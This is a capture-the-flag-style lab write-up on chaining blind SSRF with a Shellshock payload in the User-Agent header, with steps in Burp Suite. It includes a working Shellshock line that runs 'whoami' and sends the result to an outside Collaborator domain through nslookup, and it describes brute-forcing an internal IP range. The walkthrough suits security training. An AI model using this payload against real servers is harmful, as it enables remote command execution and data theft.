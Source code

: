 # Lab: Blind SSRF with Shellshock exploitation

> Lab Objective: use this functionality to perform a blind SSRF attack against an internal server in the 192.168.0.X range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.

- Load any product page, then inspect the request.

- Start Burp Collaborator, then place Burp Collab domain as the `Referer` header value, then view Burp Collab Tab.

- Inspect the HTTP Request, you'll notice that the User-Agent was included in the request headers.
  ![1st screenshot](./attachments/1.png)

- Therefore, in order to obtain OS User:

  - Use this payload as the value of User-Agent header:
    `() { :; }; /usr/bin/nslookup $(whoami).ep76oge1k1a3g5j3i8xhohkmrdx4lv9k.oastify.com`
  - Set the value of the `Referer` header as:
    `http:http://192.168.0.x:8080`

- Then send this request to this to the Intruder to Brute Force on the last octal of the IP set in the `Referer` header.
  ![2nd screenshot](./attachments/2.png)

- Start the attack, then view Burp Collab Tab, after few seconds you'll notice Two DNS Queries, both of them contain the User-Agent that includes:

  - OS User, which is the value of this Payload:
    `() { :; }; /usr/bin/nslookup $(whoami)`
  - Burp Collab Domain.

![3rd screenshot](./attachments/3.png)

- Extract the first part of the User-Agent Sent, that will be the OS user, and submit it, therefore the lab is solved.
  ![4th screenshot](./attachments/4.png)

---
